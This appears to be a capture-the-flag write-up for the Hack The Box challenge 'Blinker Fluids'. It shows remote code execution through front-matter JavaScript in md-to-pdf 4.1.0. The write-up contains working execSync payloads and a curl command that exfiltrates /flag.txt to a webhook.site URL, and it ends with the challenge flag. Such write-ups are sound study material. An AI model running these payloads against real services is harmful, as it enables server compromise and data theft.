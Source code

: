 # Blinker Fluid

```
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?
```

The system is a markdown to pdf generator, we control the content that is fed into the engine that evaluates the markdown

```js
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },  // we control markdown!
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}
```

looking up the library, we see there are vulnerabilties for version before 5.0.0

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880
https://github.com/simonhaenisch/md-to-pdf/issues/99

so we check the version used in the challenge via package.json

```json
{
	"name": "blinker-fluids",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js"
	},
	"keywords": [],
	"author": "rayhan0x01",
	"license": "ISC",
	"dependencies": {
		"express": "4.17.3",
		"md-to-pdf": "4.1.0",
		"nunjucks": "3.2.3",
		"sqlite-async": "1.1.3",
		"uuid": "8.3.2"
	},
	"devDependencies": {
		"nodemon": "^1.19.1"
	}
}

```

`"md-to-pdf": "4.1.0"`, great it is vulnerable

after realising how the page was reading the newlines, I found a way to get a working payload

```
---js
((require('child_process')).execSync('id > /tmp/RCE.txt'))
---RCE
```

or in the JSON POST body
```
{"markdown_content":"---js\n((require('child_process')).execSync('id > /tmp/RCE.txt'))\n---RCE"}
```

checking in the container locally...
```
docker exec -it web_blinkerfluids bash

# before sending payload
root@3e75640f14a1:/app# cat /tmp/RCE.txt
cat: /tmp/RCE.txt: No such file or directory

# after sending payload
root@3e75640f14a1:/app# cat /tmp/RCE.txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

now we alter the payload to read the flag and leak it to us

```
---js
((require("child_process")).execSync("curl https://webhook.site/b59e560e-2d2e-4e6a-a6f8-36e152b76180/?leak=$(cat /flag.txt)"))
---RCE
```

we get a request at  	

https://webhook.site/b59e560e-2d2e-4e6a-a6f8-36e152b76180?leak=HTBf4k3_fl4g_f0r_t3st1ng

the brackets are ommited, let's b64 it for due diligence

```
---js
((require("child_process")).execSync("curl https://webhook.site/b59e560e-2d2e-4e6a-a6f8-36e152b76180/?leak=$(cat /flag.txt | base64)"))
---RCE
```

https://webhook.site/b59e560e-2d2e-4e6a-a6f8-36e152b76180?leak=SFRCe2Y0azNfZmw0Z19mMHJfdDNzdDFuZ30K

```
echo -n SFRCe2Y0azNfZmw0Z19mMHJfdDNzdDFuZ30K | base64 -d
HTB{f4k3_fl4g_f0r_t3st1ng}
```

great, now to do it on the live version using the same payload

https://webhook.site/b59e560e-2d2e-4e6a-a6f8-36e152b76180?leak=SFRCe2JsMW5rM3JfZmx1MWRfZjByX2ludDNyRzRsNGM3aUNfdHI0djNsc30%3D

SFRCe2JsMW5rM3JfZmx1MWRfZjByX2ludDNyRzRsNGM3aUNfdHI0djNsc30=

base64 decode to get the flag
```bash
echo -n SFRCe2JsMW5rM3JfZmx1MWRfZjByX2ludDNyRzRsNGM3aUNfdHI0djNsc30= | base64 -d
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
